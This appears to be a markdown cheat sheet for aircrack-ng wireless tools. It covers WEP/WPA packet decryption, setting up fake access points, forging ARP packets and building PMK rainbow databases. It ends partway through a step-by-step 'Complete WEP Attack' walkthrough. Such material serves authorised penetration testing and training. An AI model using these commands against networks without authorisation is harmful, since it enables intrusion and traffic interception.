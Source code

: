 ## 🔧 Utility Tools

### **airdecap-ng - Packet Decryption**

| Command | Example | Description |
|---------|---------|-------------|
| WEP decryption | `airdecap-ng -w 01:02:03:04:05 capture.cap` | Decrypt WEP packets |
| WPA decryption | `airdecap-ng -p password -e ESSID capture.cap` | Decrypt WPA packets |
| Output file | `airdecap-ng -w key -o decrypted.cap capture.cap` | Specify output file |

### **airbase-ng - Fake Access Point**

| Command | Example | Description |
|---------|---------|-------------|
| Basic AP | `airbase-ng -e "FakeAP" wlan0mon` | Create fake AP |
| WEP AP | `airbase-ng -e "FakeAP" -W 1 wlan0mon` | WEP fake AP |
| WPA AP | `airbase-ng -e "FakeAP" -z 2 wlan0mon` | WPA fake AP |
| MAC filter | `airbase-ng -e "FakeAP" -m wlan0mon` | Enable MAC filtering |

### **packetforge-ng - Packet Generation**

| Command | Example | Description |
|---------|---------|-------------|
| ARP packet | `packetforge-ng -0 -a 00:11:22:33:44:55 -h 66:77:88:99:AA:BB -k 192.168.1.1 -l 192.168.1.100 -y fragment.xor -w arp.cap` | Generate ARP packet |
| UDP packet | `packetforge-ng -1 -a 00:11:22:33:44:55 -h 66:77:88:99:AA:BB -k 192.168.1.1 -l 192.168.1.100 -y fragment.xor -w udp.cap` | Generate UDP packet |

### **airolib-ng - Rainbow Table Management**

| Command | Example | Description |
|---------|---------|-------------|
| Create database | `airolib-ng rainbow.db --create` | Create rainbow database |
| Import ESSIDs | `airolib-ng rainbow.db --import essid essids.txt` | Import ESSID list |
| Import passwords | `airolib-ng rainbow.db --import passwd passwords.txt` | Import password list |
| Generate PMKs | `airolib-ng rainbow.db --batch` | Generate PMK hashes |
| Statistics | `airolib-ng rainbow.db --stats` | Show database stats |

---

## 📊 Common Usage Patterns

### **Complete WEP Attack**
```bash
# 1. Start monitor mode
airmon-ng start wlan0

# 2. Discover networks
airodump-ng wlan0mon

# 3. Target specific network
airodump-ng -c 6 --bssid 00:11:22:33:44:55 -w wep_capture wlan0mon

# 4. (New terminal) Fake authentication
aireplay-ng -1 0 -a 00:11:22:33:44:55 -h 00:11:22:33:44:66 wlan0mon
```